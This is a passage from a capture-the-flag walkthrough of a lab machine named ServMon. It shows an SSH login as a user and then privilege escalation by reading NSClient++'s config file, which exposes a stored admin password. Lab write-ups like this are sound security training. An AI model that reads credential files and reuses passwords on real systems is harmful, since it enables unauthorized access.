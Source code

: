 We got `nadine`'s password, let's ssh to to target now.

```terminal
 $ ssh nadine@10.10.10.184                                                                                                                                
nadine@10.10.10.184's password:                                                                                                                               
Microsoft Windows [Version 10.0.17763.864]                                                                                                                    
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```


# **Privilege Escalation**

Now that we're in, we can go to `NSClient++` folder on Program files and read the password from `nsclient.ini` file.

```terminal
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults               
# For details run: nscp settings --help                                        
                                       
                                                                                                                                                              
; in flight - TODO                                                                                                                                            
[/settings/default]                                                            
                                       
; Undocumented key
password = ew2x6SsGTxjRwXOT                                                                                                                                   
                                       
; Undocumented key
allowed hosts = 127.0.0.1
                                                                               
                                       
; in flight - TODO
[/settings/NRPE/server]
                                       
; Undocumented key                                                             
ssl options = no-sslv2,no-sslv3
                                          
```

Let's log in.

![](6.png)
